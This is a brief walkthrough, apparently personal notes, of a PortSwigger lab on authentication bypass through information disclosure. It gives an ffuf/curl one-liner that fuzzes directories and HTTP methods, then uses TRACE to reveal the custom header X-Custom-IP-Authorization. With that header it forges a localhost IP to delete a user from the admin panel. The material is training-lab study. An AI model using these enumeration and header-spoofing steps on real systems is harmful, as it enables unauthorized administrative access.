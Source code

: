 https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

If do you want to see the headers and param miner doesn't detect any, there's no request reflection, the only way is by sending a TRACE

Assuming we have not read the lab solution, there's an interesting one-liner

```sh
ffuf -u https://<LAB-ID>.web-security-academy.net/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -s | xargs -I {} bash -c 'for method in $(cat /usr/share/seclists/Fuzzing/http-request-methods.txt); do curl -s -o /dev/null -w "%{http_code} %{url_effective} -X $method\n" -X $method https://<LAB-ID>.web-security-academy.net/{}; done'
```
and see we could send a TRACE for admin pannel
![[Pasted image 20241106194736.png]]
Then use the custom header to bypass the application rules
![[Pasted image 20241106195251.png]]
And then we can send `GET /admin/delete?username=carlos` with the header `X-Custom-IP-Authorization: 127.0.0.1`